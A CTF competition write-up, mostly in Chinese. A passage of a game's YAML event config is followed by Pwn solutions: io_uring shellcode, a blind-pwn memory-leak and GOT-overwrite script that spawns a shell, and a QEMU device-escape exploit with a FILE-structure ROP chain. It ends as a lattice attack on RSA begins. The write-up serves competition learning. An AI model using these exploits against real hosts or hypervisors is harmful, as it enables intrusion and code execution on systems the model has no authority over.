    - id: Expression
      # 19:00 pm - 8:00 = 11
      expression: elapsedHour === 11
  actions:
    - id: CoinFlip
      probability: player.examLevel * 0.25
      success:
        - id: DisplayMessage
          message: message.examPassed
          confirm: message.great
        - id: UpdateVariables
          updates:
            # exam is tired for sure
            player.energy: player.energy - 10
            player.hourSkipped: 1
      fail:
        - id: EndGame
          winning: false
          message: message.examFailed
          confirm: message.restart

# main choices
# insight -> draft exploit -> tuned exploit -> submitted flag
- id: HourBeginTasks
  trigger: HourBegin
  conditions:
    - id: Expression
      expression: player.hourSkipped === 0
  actions:
    - id: DisplayChoices
      message: message.newHour
      choices:
        - message: message.studyExam
          requirement: elapsedHour < 11
          actions:
            - id: UpdateVariables
              updates:
                player.examLevel: player.examLevel + 1
                # study is tired
                player.energy: player.energy - 10
            - id: Switch
              branches:
                - condition: player.examLevel < 4
                  actions:
                    - id: DisplayMessage
                      message: message.examLevelUp
                      confirm: message.great
                - condition: 1
                  actions:
                    - id: DisplayMessage
                      message: message.examLevelMax
                      confirm: message.great
        - message: message.tryCTF
          requirement: elapsedHour <= 48
          actions:
            - id: CoinFlip
              # TODO
              # 1. if the player is energetic, possibly
              # 2. if the player try many times, possibly
              probability: 0.60
              success:
                - id: GiveItem
                  itemId: insight
                  amount: 1
                - id: DisplayRandomMessage
                  messages:
                    - message.gainInsight1
                    - message.gainInsight2
                  confirm: message.great
                # good insight is encouraing
                - id: CoinFlip
                  probability: 0.2
                  success:
                    - id: DisplayMessage
                      message: message.goodInsight
                      confirm: message.encouraging
                    - id: UpdateVariables
                      updates:
                        player.energy: player.energy + 10
              fail:
                - id: DisplayRandomMessage
                  messages:
                    - message.noInsight1
                    - message.noInsight2
                  confirm: message.oops
                # dis-encouraging
                - id: UpdateVariable
                  variable: player.energy
                  value: player.energy - 5
        - message: message.workOnInsight
          requirement: itemCount('insight') > 0 && elapsedHour <= 48
          actions:
            - id: CoinFlip
              # same, energy and try time
              # most insight should gets to exploit
              probability: 0.8
              success:
                - id: DisplayMessage
                  message: message.gainDraftExp
                  confirm: message.soundsInteresting
                - id: GiveItem
                  itemId: draftExp
                  amount: 1
              fail:
                - id: DisplayRandomMessage
                  messages:
                    - message.badInsight1
                    - message.badInsight2
                    - message.badInsight3
                  confirm: message.unfortunate
            - id: GiveItem
              itemId: insight
              amount: -1
        - message: message.workOnDraftExp
          requirement: itemCount('draftExp') > 0 && elapsedHour <= 48
          actions:
            - id: CoinFlip
              # same, energy and try time
              probability: 0.7
              success:
                - id: DisplayMessage
                  message: message.gainTunedExp
                  confirm: message.soundsInteresting
                - id: UpdateItemAmounts
                  updates:
                    draftExp: -1
                    tunedExp: 1
              fail:
                - id: DisplayRandomMessage
                  messages:
                    - message.noTunedExp1
                    - message.noTunedExp2
                  confirm: message.unfortunate
                - id: UpdateVariable
                  variable: player.energy
                  value: player.energy - 5
        - message: message.workTunedExp
          requirement: itemCount('tunedExp') > 0 && elapsedHour <= 48
          actions:
            - id: CoinFlip
              # same, energy and try time, and flag (more flag then harder)
              probability: 0.7
              success:
                - id: DisplayMessage
                  message: message.gainFlag
                  confirm: message.great
                - id: UpdateItemAmounts
                  updates:
                    submittedFlag: 1
                    tunedExp: -1
              fail:
                - id: DisplayRandomMessage
                  messages:
                    - message.noflag1
                    - message.noflag2
                    - message.noflag3
                  confirm: message.damn
                - id: UpdateVariables
                  updates:
                    player.energy: player.energy - 5
        - message: message.resubmitFlag
          requirement: itemCount('wrongFlag') > 0 && elapsedHour < 48
          actions:
            - id: DisplayMessage
              message: message.resubmitComplete
              confirm: message.hopeAccepted
            - id: UpdateItemAmounts
              updates:
                resubmittedFlag: 1
                wrongFlag: -1
        # day time -> slack off
        - message: message.slackOff
          requirement: "hour < 23 && hour >= 7"
          actions:
            # random decide bonus energy
            - id: Random
              groups:
                - weight: 1
                  actions:
                    - id: DisplayRandomMessage
                      messages:
                        - message.caughtSlackOff1
                        - message.caughtSlackOff2
                      confirm: message.oops
                - weight: 2
                  actions:
                    - id: DisplayMessage
                      message: message.slackOffSuccess
                      confirm: message.great
                    - id: UpdateVariable
                      variable: player.energy
                      value: player.energy + 5
            - id: UpdateVariables
              updates:
                player.energy: player.energy + 35
            - id: SetStatus
              statusId: exhaustion
              on: false
        # night time -> sleep
        - message: message.nap
          requirement: "!(hour < 23 && hour >= 7)"
          actions:
          - id: DisplayMessage
            message: message.napSuccess
            confirm: message.great
          - id: UpdateVariables
            updates:
              player.energy: 100
              player.hourSkipped: 3
          - id: SetStatus
            statusId: exhaustion
            on: false

# flag check events
- id: flagCheck
  trigger: HourBegin
  conditions:
    - id: Expression
      expression: itemCount('submittedFlag') >= 1
  actions:
    - id: CoinFlip
      probability: 0.6
      success:
        - id: DisplayMessage
          message: message.flagAccepted
          confirm: message.bravo
        - id: UpdateItemAmounts
          updates:
            submittedFlag: -1
            flag: 1
        - id: UpdateVariables
          updates:
            player.energy: player.energy + 10
        - id: CoinFlip
          probability: 0.5 - (elapsedHour / 48)
          success:
            - id: DisplayMessage
              message: message.firstblood
              confirm: message.encouraging
            - id: SetStatus
              statusId: firstblood
              on: true
      fail:
        - id: DisplayRandomMessage
          messages:
            - message.flagRejected1
            - message.flagRejected2
          confirm: message.unfortunate
        - id: UpdateItemAmounts
          updates:
            submittedFlag: -1
            wrongFlag: 1
        - id: UpdateVariable
          variable: player.energy
          value: player.energy - 10
- id: ResubmittedFlagCheck
  trigger: HourBegin
  conditions:
    - id: Expression
      expression: itemCount('resubmittedFlag') >= 1
  actions:
    - id: CoinFlip
      probability: 0.85
      success:
        - id: DisplayMessage
          message: message.resubmittedFlagAccepted
          confirm: message.bravo
        - id: UpdateItemAmounts
          updates:
            resubmittedFlag: -1
            flag: 1
        - id: UpdateVariables
          updates:
            player.energy: player.energy + 10
      fail:
        - id: DisplayRandomMessage
          messages:
            - message.resubmittedFlagRejected
          confirm: message.unfortunate
        - id: UpdateItemAmounts
          updates:
            resubmittedFlag: -1
            wrongFlag: 1
        - id: UpdateVariable
          variable: player.energy
          value: player.energy - 20
# tired
- id: Exhaustion
  trigger: HourBegin
  conditions:
  - id: Expression
    expression: "!hasStatus('exhaustion') && player.energy < 40"
  actions:
  - id: DisplayMessage
    message: message.exhaustion
    confirm: message.sucks
  - id: SetStatus
    statusId: exhaustion
    on: true
# captain comments
# TODO: unhappy captain
- id: ExamReminder
  trigger: HourBegin
  once: true
  conditions:
    - id: Expression
      expression: elapsedHour >= 6 && player.examLevel <= 2
  actions:
    - id: DisplayMessage
      message: message.examReminder
      confirm: message.gotit
# CTF over
- id: Timeout
  trigger: HourBegin
  conditions:
    - id: Expression
      expression: elapsedHour > 48
  actions:
  - id: EndGame
    message: message.gameover
    confirm: message.restart
    winning: true
```

然后正常打拿完8个flag就可以触发check获得flag

​

# Pwn

### master-of-orw

利用io_uring系统调用orw。

```Python
from pwn import *

import sys

if not sys.warnoptions:
    import warnings
    warnings.simplefilter("ignore")

# context.os = "linux"
# r = process(["gdb", "./exp"])
# r.send("set disassembly-flavor intel\nb main\nstart\n" + "x/i $rip\nsi\n" * 0x300)
# r.interactive()

# with open("exp.asm", "r") as f:
#     all_text = f.read()
#     lines = all_text.split("(gdb)")
#     for line in lines:
#         if("=>") in line:
#             asm_code = line[line.index(">:") + 2:].strip()
#             if(asm_code[:4] == "call"):
#                 print(asm_code)
#             if("endbr64" in asm_code):
#                 continue
#             print(asm_code)

context.terminal = ["tmux", "splitw", "-h"]
context.os = "linux"

# b"\xce\xb8".decode()

# r = process("./master-of-orw", env = {"LD_PRELOAD": "./libc.so.6"})
# gdb.attach(r, "b * $rebase(0x15BD)\nc")
r = remote("120.46.65.156", "32101")

shellcode = b""

payload = """
lea    rax,[rip+0x3f9-7]
xor    edx,edx
push   0x1
pop    rdi
movq   xmm2,rax
sub    rsp,0x108
lea    rbx,[rsp+0x20]
lea    rbp,[rsp+0x40]
movq   xmm0,rbx
push   rbp
pop    rsi
lea    r12,[rsp+0x18]
punpcklqdq xmm0,xmm2
movaps XMMWORD PTR [rsp],xmm0
sub    rsp,0x88
push   rdx
pop    r9
push   rdi
pop    r8
push   0xf
pop    rcx
xor    eax,eax
push   rsp
pop    rdx
push   rdx
pop    rdi
rep stos QWORD PTR es:[rdi],rax
push   r8
pop    rdi
push   r12
push   rbp
push   rdx
pop    rbp
push   rbx
mov    rbx,rsi
mov    rsi,rdx
sub    rsp,0x10
mov    esi,edi
push   0x1a9
pop    rdi
call   syscall_func
pop    r15
lea    rdi,[rbx+0x8]
mov    r12d,eax
and    rdi,0xfffffffffffffff8
mov    QWORD PTR [rbx],0x0
mov    rdx,rbx
mov    QWORD PTR [rbx+0xd0],0x0
mov    ecx, 26
rep stos QWORD PTR es:[rdi],rax
lea    rcx,[rbx+0x68]
mov    edi,r12d
mov    r13d,edi
push   r12
mov    r12,rcx
push   rbp
mov    rbp,rdx
push   rbx
mov    rbx,rsi
push   r15
mov    edx,DWORD PTR [rsi]
mov    eax,DWORD PTR [rsi+0x40]
mov    esi,DWORD PTR [rsi+0x4]
lea    rax,[rax+rdx*4]
mov    edx,DWORD PTR [rbx+0x64]
shl    rsi,0x4
mov    QWORD PTR [rbp+0x48],rax
add    rsi,rdx
mov    QWORD PTR [rcx+0x38],rsi
mov    rsi,QWORD PTR [rbp+0x48]
mov    QWORD PTR [r12+0x38],rsi
mov    r8d,r13d
push   0x8001
pop    rcx
push   0x3
pop    rdx
xor    edi,edi
call   mmap64_func
mov    QWORD PTR [rbp+0x50],rax
mov    QWORD PTR [r12+0x40],rax
mov    edx,DWORD PTR [rbx+0x28]
mov    esi,DWORD PTR [rbx]
mov    r9d,0x10000000
mov    r8d,r13d
push   0x8001
pop    rcx
shl    rsi,0x6
push   0
pop    r15
loop1:
    add    rdx,rax
    mov    QWORD PTR [rbp+r15*8],rdx
    mov    edx,DWORD PTR [rbx+0x2c+r15*4]
    inc    r15
    cmp    r15, 6
    jnz loop1
add    rax,rdx
push   0x3
pop    rdx
mov    QWORD PTR [rbp+0x30],rax
call   mmap64_func
mov    QWORD PTR [rbp+0x38],rax
mov    edx,DWORD PTR [rbx+0x50]
mov    rax,QWORD PTR [r12+0x40]
push   0
pop    r13
push   0
pop    r15
loop2:
    add    rdx,rax
    mov    QWORD PTR [r12+r15*8],rdx
    mov    edx,DWORD PTR [rbx+0x54+r15*4]
    inc    r15
    cmp    r15, 4
    jnz loop2
add    rdx,rax
mov    QWORD PTR [r12+0x28],rdx
mov    edx,DWORD PTR [rbx+0x64]
add    rdx,rax
mov    QWORD PTR [r12+0x30],rdx
mov    edx,DWORD PTR [rbx+0x68]
add    rax,rdx
mov    QWORD PTR [r12+0x20],rax
pop    r15
pop    rbx
pop    rbp
pop    r12
mov    r13d,eax
mov    eax,DWORD PTR [rbp+0x8]
mov    DWORD PTR [rbx+0xc4],r12d
mov    DWORD PTR [rbx+0xc0],eax
mov    eax,DWORD PTR [rbp+0x14]
mov    DWORD PTR [rbx+0xc8],eax
pop    r15
pop    rbx
pop    rbp
pop    r12
add    rsp,0x88
push   rbp
pop    rdi
call   io_uring_get_sqe_func
pxor   xmm1,xmm1
movdqa xmm0,XMMWORD PTR [rsp]
movabs rcx,0xffffffff0000001c
movaps XMMWORD PTR [rsp+0x20],xmm1
mov    QWORD PTR [rsp+0x30],0x0
mov    QWORD PTR [rax],rcx
mov    QWORD PTR [rax+0x18],0x18
mov    QWORD PTR [rax+0x20],0x0
mov    QWORD PTR [rax+0x28],0x0
movups XMMWORD PTR [rax+0x8],xmm0
pxor   xmm0,xmm0
movups XMMWORD PTR [rax+0x30],xmm0
call   io_uring_submit_func
xor    edx,edx
mov    ecx,0x1
mov    rsi,r12
mov    rdi,rbp
call   __io_uring_get_cqe_func
mov    rax,QWORD PTR [rsp+0x18]
xor    r9d,r9d
xor    edi,edi
mov    rdx,QWORD PTR [rsp+0xa8]
mov    ecx,0x2
mov    esi,0x30
mov    r8d,DWORD PTR [rax+0x8]
mov    eax,DWORD PTR [rdx]
add    eax,0x1
mov    DWORD PTR [rdx],eax
mov    edx,0x3
call   mmap64_func
mov    rdi,rbp
mov    QWORD PTR [rsp+0x28],0x40
mov    QWORD PTR [rsp+0x20],rax
call   io_uring_get_sqe_func
pxor   xmm0,xmm0
mov    rdi,rbp
movabs rsi,0x100000002
mov    QWORD PTR [rax],rsi
mov    QWORD PTR [rax+0x8],0x0
mov    QWORD PTR [rax+0x10],rbx
mov    QWORD PTR [rax+0x18],0x1
mov    QWORD PTR [rax+0x20],0x0
mov    QWORD PTR [rax+0x28],0x0
movups XMMWORD PTR [rax+0x30],xmm0
call   io_uring_submit_func
xor    r8d,r8d
xor    edx,edx
mov    ecx,0x1
mov    rsi,r12
mov    rdi,rbp
call   __io_uring_get_cqe_func

io_uring_get_sqe_func:
mov    rax,QWORD PTR [rdi]
xor    r8d,r8d
mov    ecx,DWORD PTR [rax]
mov    eax,DWORD PTR [rdi+0x44]
lea    edx,[rax+0x1]
mov    esi,edx
sub    esi,ecx
mov    rcx,QWORD PTR [rdi+0x18]
mov    rcx,QWORD PTR [rdi+0x10]
and    eax,DWORD PTR [rcx]
mov    DWORD PTR [rdi+0x44],edx
shl    rax,0x6
add    rax,QWORD PTR [rdi+0x38]
mov    r8,rax
mov    rax,r8
ret

io_uring_submit_func:
push   r15
mov    r10,QWORD PTR [rdi+0x8]
mov    edx,DWORD PTR [rdi+0x40]
mov    r8d,DWORD PTR [rdi+0x44]
mov    eax,DWORD PTR [r10]
sub    r8d,edx
mov    rcx,QWORD PTR [rdi+0x10]
mov    r9,QWORD PTR [rdi+0x30]
add    r8d,eax
mov    ecx,DWORD PTR [rcx]
nop    DWORD PTR [rax+0x0]
mov    esi,eax
and    edx,ecx
add    eax,0x1
and    esi,ecx
mov    DWORD PTR [r9+rsi*4],edx
mov    edx,DWORD PTR [rdi+0x40]
add    edx,0x1
mov    DWORD PTR [rdi+0x40],edx
mov    DWORD PTR [r10],eax
mov    rdx,QWORD PTR [rdi]
sub    eax,DWORD PTR [rdx]
xor    edx,edx
mov    esi,eax
mov    eax,DWORD PTR [rdi+0xc0]
mov    ecx,eax
and    ecx,0x2
mov    r8d,ecx
or     r8d,0x1
test   al,0x1
cmovne ecx,r8d
mov    edi,DWORD PTR [rdi+0xc4]
mov    r9,r8
mov    r8d,ecx
mov    ecx,edx
mov    edx,esi
mov    esi,edi
mov    edi,0x1aa
push   r15
push   0x8
call   syscall_func
pop    rdx
pop    rcx
pop    r15
ret

syscall_func:
mov    rax,rdi
mov    rdi,rsi
mov    rsi,rdx
mov    rdx,rcx
mov    r10,r8
mov    r8,r9
mov    r9,QWORD PTR [rsp+0x8]
syscall
ret

__io_uring_get_cqe_func:
sub    rsp,0x28
mov    DWORD PTR [rsp],edx
mov    rdx,rsp
movabs rax,0x800000000
mov    DWORD PTR [rsp+0x4],ecx
mov    QWORD PTR [rsp+0x8],rax
mov    QWORD PTR [rsp+0x10],r8
push   r13
mov    r13,rsi
push   r12
mov    r12,rdx
push   rbp
mov    rbp,rdi
push   rbx
push   r15
nop    DWORD PTR [rax+rax*1+0x0]
mov    rax,QWORD PTR [rbp+0x78]
mov    esi,DWORD PTR [rax]
mov    rax,QWORD PTR [rbp+0x70]
mov    edx,DWORD PTR [rax]
mov    rcx,QWORD PTR [rbp+0x68]
mov    eax,DWORD PTR [rcx]
sub    edx,eax
mov    ebx,esi
and    ebx,eax
shl    rbx,0x4
add    rbx,QWORD PTR [rbp+0x98]
mov    esi,DWORD PTR [r12]
xor    r8d,r8d
mov    QWORD PTR [r13+0x0],rbx
add    rsp,0x8
mov    eax,r8d
pop    rbx
pop    rbp
pop    r12
pop    r13
add    rsp,0x28
ret

mmap64_func:
mov    r10d,ecx
push   0x9
pop    rax
syscall
ret
"""

shellcode += asm(payload, arch = "amd64")
print(hex(len(shellcode)))

r.sendafter("Input your code\n", shellcode + b"\x00" * (0x3f9 - len(shellcode)) + b"/flag\x00")
r.interactive()
```

### Blind

盲Pwn，感觉得先找到栈溢出在哪边，然后试着泄露一下栈上的数据

试着输入

```Python
7d40w
回车
```

能够泄露一些栈的基本数据，可以利用这一点寻找BROP

目前感觉，程序使用了一个结构体:

```C
typedef struct{
   char buffer[8];
   char* bufferptr;
}BufferOffset
```

这个程序在

```C
Aaaaaaa\x00>
```

前半部打印的时候，会使用这个结构体，而且这个结构体猜测它是这样放的:

```C
[Aaaaaaa\x00][bufferptr]
```

所以，当我们尝试使用

```C
d[num]s
```

的时候，这个offset就会发生位移

经过测试，利用下面的位移就能够通过修改指针，实现任意地址泄露

```C
# success poc
content = try_steps(ph,"7d")
print(content)

content = try_steps(ph,"1w")
print(content)

content = try_steps(ph,"d")
print(content)

content = try_steps(ph,"8w") # 这里w表示+，s表示-，想要泄露哪个地址就用对应的偏移即可
print(content)

content = try_steps(ph,"8a")
print(content)

content = try_steps(ph,"7s")
print(content)
```

然后根据上述的思路，可以先编写一个用于泄露的脚本

```Python
from pwn import *

context.log_level = "DEBUG"

def calc_offset(num1, num2):
    res1 = []
    res2 = []
    if num1 == 0:
        res1 = [0]
    if num2 == 0:
        res2 = [0]
  
    while num1 > 0 and num2 > 0:
        res1.append(num1 % 256)
        num1 //= 256
        res2.append(num2 % 256)
        num2 //= 256

    ret_str = []
    for n1, n2 in zip(res1, res2):
        ret_str.extend([str(n1) + 's', str(n2) + 'w'])
        ret_str.append('d')

    # skip last one
    return ret_str[:-1]

def try_steps(ph, in_str):
    content = ph.recvuntil(">")
    ph.sendline(in_str)
    # content = ph.recvuntil("\n")
    return content

def leak_content(ph,str_base,test_address):
  
    ret_content = ""
    ph.sendline("8d")
    content = ph.recvuntil("\n")
    print(content)

    # here, we will calculate the return address
    send_str = calc_offset(str_base,test_address)
    print(send_str)
    content = try_steps(ph,''.join(send_str))
    log.debug("Here try to leak return address content")
    # content = ph.recvuntil("\n> ")
    content = ph.recvb(numb=1)
    content += ph.recvb(100)
    content += ph.recvb(100)

    print(content)
    print(len(content))
    ret_content = content[1:9]
    # fd.flush()

    # move return
    # first, move back
    offset = str_base - test_address
    ph.sendline(str(offset)+"d")

    content = ph.recvuntil("\n>")
    print(content)

    # then, change it one by one
    send_str.reverse()
    rev_send_str = []
    for each in send_str:
        if each == 'd':
            rev_send_str.append('a')
        elif 'w' in each:
            rev_send_str.append(each.replace('w','s'))
        elif 's' in each:
            rev_send_str.append(each.replace('s','w'))
    print(rev_send_str)
    ph.sendline(''.join(rev_send_str))
    # content = try_steps(ph,"16s")
    # print(content)
    ph.recvuntil("\n>")

    ph.sendline(str(offset)+"a"+"8a")
    content = ph.recvuntil("\n")
    print(content)

    return ret_content


ph = remote("120.46.65.156",32104)
banner = ph.recvuntil("submit.")
print(banner)
print("------")

# success poc
content = try_steps(ph,"7d1w")
print(content)
content = try_steps(ph,"d")
print(content)

content = try_steps(ph,"8w")
log.debug("Here try to leak address")
content = ph.recvuntil("\n")
print(content)
# don't know why not align....
str_base = u64(content[1:9]) - 8

# ph.sendline(in_str)
print("ste_base leak address is 0x%x"%str_base)
# return origin
content = try_steps(ph,"8a")
print(content)

content = try_steps(ph,"8s")
print(content)

content = try_steps(ph,"8d16w")
log.debug("Here try to leak return address")
content = ph.recvuntil("\n")
print(content)
# don't know why not align....
ret_address = u64(content[1:9])
print("ret_address leak address is 0x%x"%ret_address)

ph.sendline("16a")
content = ph.recvuntil("\n>")
print(content)

ph.sendline("16s")
# content = try_steps(ph,"16s")
print(content)
print(ph.recvuntil("\n>"))

# content = try_steps(ph,"8a")
ph.sendline("8d")
content = ph.recvuntil("\n")
print(content)

# print("Here, try to leak..................")

start_address = ret_address&0xfffffffffffff000
start_address -= 0x1000

test_address = start_address + 0x6a0
end_address = start_address + 0x5000

fd = open("dump",'ab')
while test_address < end_address:

    print("[+++++++++++++++++++] address 0x%x ,offset0x%x[++++++++++++++++]"%(test_address, test_address - start_address))
    ph.sendline("8d")
    content = ph.recvuntil("\n")
    print(content)

    # here, we will calculate the return address
    send_str = calc_offset(str_base,test_address)
    print(send_str)
    content = try_steps(ph,''.join(send_str))
    log.debug("Here try to leak return address content")
    # content = ph.recvuntil("\n> ")
    content = ph.recvb(numb=1)
    content += ph.recvb(100)
    content += ph.recvb(100)

    print(content)
    print(len(content))
    fd.write(content[1:9])
    fd.flush()

    # move return
    # first, move back
    offset = str_base - test_address
    ph.sendline(str(offset)+"d")

    content = ph.recvuntil("\n>")
    print(content)

    # then, change it one by one
    send_str.reverse()
    rev_send_str = []
    for each in send_str:
        if each == 'd':
            rev_send_str.append('a')
        elif 'w' in each:
            rev_send_str.append(each.replace('w','s'))
        elif 's' in each:
            rev_send_str.append(each.replace('s','w'))
    print(rev_send_str)
    ph.sendline(''.join(rev_send_str))
    # content = try_steps(ph,"16s")
    # print(content)
    ph.recvuntil("\n>")

    ph.sendline(str(offset)+"a"+"8a")
    content = ph.recvuntil("\n")
    print(content)
    test_address += 8

fd.close()
```

完成leak操作之后，虽然binary不太能看，但是勉强已经能做了。感觉之前有些分析的逻辑有点不对，不过就顺势做下去就好了。利用前面的偏移操作实现任意地址写，然后泄露libc，完成ret2libc即可。

​

最后稍微提一个小坑：因为这个最后/bin/sh字符串执行的时候，存在s，会导致偏移发生错乱，所以这里需要再修改指针最后加一个移动（做到这一步的人应该能理解我在说什么）

```Python

setbuf_got  = 0x4038 + start_address
printf_got = 0x4040 + start_address
printf_plt = 0x56CF0

test_address = printf_got
printf_real = 0
print("[+++++++++++++++++++] address 0x%x ,offset0x%x[++++++++++++++++]"%(test_address, test_address - start_address))
printf_real = leak_content(ph, str_base, printf_got)
print("LEAKING INFO")
print(printf_real)
printf_real = u64(printf_real)
libc_base = printf_real - printf_plt
real_system = 0x48e50 + libc_base
print("Test libc_base base address is 0x%x"%libc_base)
# print("Test real_system base address is 0x%x"%real_system)
# # print("test libc address")

# header = leak_content(ph, str_base, real_system)
# header += leak_content(ph, str_base, real_system+8)
# header += leak_content(ph, str_base, real_system+0x10)
# header += leak_content(ph, str_base, real_system+0x18)
# print(header)

print("[++++++++++++++++] modify target adata")
# modify this got
test_address = 0x4018+start_address
ret_content = ""
ph.sendline("8d")
content = ph.recvuntil("\n")
print(content)

# here, we will calculate the return address
send_str = calc_offset(str_base,test_address)
print(send_str)
content = try_steps(ph,''.join(send_str))
log.debug("Here try to attack !!")
# content = ph.recvuntil("\n> ")
content = ph.recvb(numb=1)
content += ph.recvb(100)
content += ph.recvb(100)

print(content)
print(len(content))
origin_data = content[1:9]

ph.sendline("13a")
content = ph.recvuntil("\n")
print(content)

# modify the offset

# here, try to modify it
# data must be array
data = p64(real_system)
# if type(data) != list:
#     exit(0)
# ph.interactive()
modify_str = ""
for i,each in enumerate(data):
    modify_str = modify_str + str(origin_data[i]) + "s" + str(ord(each)) + "w"
    modify_str += "d"
modify_str = modify_str[:-1]
# finish attach
modify_str += ";/bin/sh"
print(modify_str)
ph.interactive()
```

### qemuplayground-2

mmio越界覆盖4字节的指针，相对地址大范围读写，可以泄露堆上的unsortbin指针然后找到本线程的arena，再通过多次解引用找到main_arena，泄露libc地址，最后打house of apple2的链子运行system("cat flag 1>&2")

```C
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/io.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>

unsigned char *mmio_mem;

void die(const char *msg) {
    perror(msg);
    exit(-1);
}
unsigned int pmio_base = 0xc040;

uint32_t pmio_read(uint32_t addr)
{
    return (uint32_t)inl(addr + pmio_base);
}

uint8_t pmio_read_byte(uint32_t addr)
{
    return (uint8_t)inb(addr + pmio_base);
}

void pmio_write_dword(uint32_t addr, uint32_t value)
{

    outl(value, addr + pmio_base);
}

void pmio_write_word(uint32_t addr, uint16_t value)
{

    outw(value, addr + pmio_base);
}

void pmio_write_byte(uint32_t addr, uint8_t value)
{

    outb(value, addr + pmio_base);
}

void mmio_write(uint32_t addr, uint64_t value)
{
    *((uint64_t *)(mmio_mem + addr)) = value;
}

void mmio_write_dword(uint32_t addr, uint32_t val) {

    *((uint32_t *)(mmio_mem + addr)) = val;
}

uint32_t mmio_read_dword(uint32_t addr, uint32_t val) {
  
    return *((uint32_t *)(mmio_mem + addr));
}

uint64_t mmio_read(uint32_t addr)
{
    return *((uint64_t *)(mmio_mem + addr));
}

uint64_t u64(unsigned char * s) {
    uint64_t result = 0;
    for (int i = 7 ; i >=0 ;i--) {
        result = (result << 8) | (0x00000000000000ff&s[i]);
    }
    return result;
}

void p() {
    printf("> ");
    fflush(stdout);
    getchar();
}

uint32_t read_ptr_dword(uint32_t off) {
    uint32_t res = 0;
    for(int i = 3; i >= 0; i--){
        res <<= 8;
        uint8_t tmp = pmio_read_byte(0x10 + i + off);
        res += tmp;
    }
    return res;
}

void write_ptr_dword(uint32_t off, uint32_t val) {
    for(int i = 0; i < 4; i++) {
        uint8_t tmp = val & 0xff;
        pmio_write_byte(0x10 + i + off, tmp);
        val >>= 8;
    }
}

uint32_t u32(uint64_t addr) {
    return addr & 0xffffffff;
}

uint64_t read_ptr_qword(uint32_t off) {
    uint64_t low = read_ptr_dword(off);
    uint64_t high = read_ptr_dword(off + 4);
    return (high << 32) + low;
}

void set_ptr(uint32_t addr) {
    mmio_write_dword(0x40, addr);
}

uint64_t read_qword_in(uint64_t addr) {
    set_ptr(u32(addr));
    return read_ptr_qword(0);
}

void write_qword_in(uint64_t addr, uint64_t val) {
    set_ptr(u32(addr));
    write_ptr_dword(0, u32(val));
    write_ptr_dword(4, u32(val >> 32));
}
// void write_str(unsigned char * s, uint32_t len) {
//     for(int i = 0; i < len; i++) {
//         pmio_write_byte()
//     }
// }

#define NEXT_ARENA_OFF 0x8a0
#define MAIN_ARENA_OFF 0x219c80
#define SYSTEM_OFF 0x50d70
#define STDERR_OFF 0x21a6a0
#define FAKE_WIDE_FILE_OFF 0x21b000
#define WFILE_JUMPS_OFF 0x2160c0

#define CMD_OFF 0x158

int main(int argc, char *argv[]) {

    // Open and map I/O memory for the strng device
    int mmio_fd =
        open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");

    if (iopl(3) != 0) {
        die("io permission");
    }

    // mmio_read()
    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if(mmio_mem<0){
        die("mmap mmio_mem");
    }
    char flag1[] = "ACTF{cH3cK_1n_wI7h_B@by_C1ph3r_Te$t_1n_Q3MU_pl4yg3OuNd_1$_EASy!}";
    for(int i = 0; i < sizeof(flag1) - 1; i += 4) {
        mmio_write_dword(i, *(uint32_t * )(flag1 + i));
    }

    pmio_write_byte(1, 0x20);

    while(pmio_read_byte(0x1) != 1);

    pmio_write_byte(0x1f, 0x40);
    uint64_t arena_ptr = (read_ptr_qword(0) & -0x1000) + NEXT_ARENA_OFF;
    printf("heap_arena = %#lx\n", arena_ptr);

    uint64_t next_arena_ptr = (read_qword_in(arena_ptr) & -0x1000) + NEXT_ARENA_OFF;
    printf("next_arena = %#lx\n", next_arena_ptr);

    uint64_t libc_arena = read_qword_in(next_arena_ptr);
    printf("libc_arena = %#lx\n", libc_arena);

    uint64_t libc_base = libc_arena - MAIN_ARENA_OFF;
    printf("libc_base = %#lx\n", libc_base);

    uint64_t system_func = libc_base + SYSTEM_OFF;
    // write_qword_in(libc_arena, system_func);

    uint64_t stderr_ptr = libc_base + STDERR_OFF;
    write_qword_in(stderr_ptr, 0ull);
    write_qword_in(stderr_ptr + 0x8, 0xa81ull);
  
    uint64_t fake_wfile_ptr = libc_base + FAKE_WIDE_FILE_OFF;
    write_qword_in(stderr_ptr + 0xa0, fake_wfile_ptr);

    write_qword_in(stderr_ptr + 0xc0, 3ull); // mode

    uint64_t wfile_jumps = libc_base + WFILE_JUMPS_OFF;
    write_qword_in(stderr_ptr + 0xd8, wfile_jumps);

    // write_qword_in(fake_wfile_ptr + 0x18, 0ull);
    // write_qword_in(fake_wfile_ptr + 0x30, 0ull);

    write_qword_in(fake_wfile_ptr + 0x20, 1ull); // set wide_file._IO_write_ptr

    write_qword_in(fake_wfile_ptr + 0xe0, fake_wfile_ptr + 0x80);

// 0x000000000005a120: mov rsp, rdx; ret;
    typedef uint64_t u64;
    u64 mov_rsp_rdx = libc_base + 0x000000000005a120;
// 0x00000000000c46bc: add rsp, 0x100; sub rax, rdx; ret;
    u64 adjust_stack = libc_base + 0x00000000000c46bc;
    u64 pop_rdi = libc_base + 0x000000000002a3e5;
    u64 pop_rsi = libc_base + 0x000000000002be51;
    u64 pop_rdx = libc_base + 0x00000000000796a2;
    u64 pop_rax = libc_base + 0x0000000000045eb0;
    u64 syscall_ret = libc_base + 0x0000000000091316;

    write_qword_in(fake_wfile_ptr + 0x0, adjust_stack);
    write_qword_in(fake_wfile_ptr + 0xe8, mov_rsp_rdx);

    u64 ropchain[] = {
        pop_rdi,
        fake_wfile_ptr + CMD_OFF,
        pop_rdi + 1,
        system_func
    };

    for(int i = 0; i < sizeof(ropchain) / sizeof(ropchain[0]); i++) {
        write_qword_in(fake_wfile_ptr + 0x108 + i * 8, ropchain[i]);
    }

    u64 cmd[] = {
        7449354444534473059ull,
        215389974816ull
    };

    for(int i = 0; i < sizeof(cmd) / sizeof(cmd[0]); i++) {
        write_qword_in(fake_wfile_ptr + CMD_OFF + i * 8, cmd[i]);
    }
  

    // p();
    return 0;
}
```

# Crypto

### EasyRSA

**$$E*D-k_1*n_1=A\\E*D-a*n_2=B\\E*D-d*n_3=C$$**

存在这三个等式关系，其中D，A，B，C均为小于E的较小数直接造格就好

```Python
M = Matrix(ZZ,[[e,e,e,2^767],
